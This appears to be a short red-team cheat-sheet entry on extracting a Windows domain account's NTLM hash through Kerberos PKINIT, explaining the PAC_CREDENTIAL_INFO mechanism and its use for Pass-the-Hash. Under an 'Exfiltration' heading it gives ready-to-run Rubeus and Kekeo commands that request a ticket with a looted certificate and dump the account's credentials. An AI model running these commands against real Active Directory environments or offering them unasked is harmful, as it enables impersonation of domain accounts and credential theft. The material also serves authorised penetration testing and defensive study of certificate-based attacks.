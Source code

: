 ## Use the Kerberos PKINIT protocol to retrieve a User/Computer account’s NTLM hash ##

#### What's running under the hood ####
- When using PKINIT to obtain a TGT (Ticket Granting Ticket), the KDC (Key Distribution Center) includes in the ticket a `PAC_CREDENTIAL_INFO` structure containing the NTLM keys (i.e. LM and NT hashes) of the authenticating user.
- This feature allows users to switch to NTLM authentications when remote servers don't support Kerberos, while still relying on an asymmetric Kerberos pre-authentication verification mechanism (i.e. PKINIT).

#### What the attack is about ####
- When we use a certificate to request a TGT in order to impersonate a domain account, we can also extract it's NTLM hash.
- This hash can be used to execute Pass-the-Hash/OverPass-the-Hash attacks.

### Exfiltration ###
1. **Rubeus**
`PS C:\ADCS\Auditor> .\Rubeus.exe asktgt /user:certstore /certificate:C:\ADCS\Auditor\Loot\certstore.pfx /domain:cb.corp /dc:cb-ca.cb.corp /password:certpass /nowrap /ptt /getcredentials`

2. **Kekeo**
`PS C:\ADCS\Auditor> .\kekeo.exe "tgt::pac /caname:thename-DC-CA /subject:harmj0y /castore:current_user /domain:domain.local"`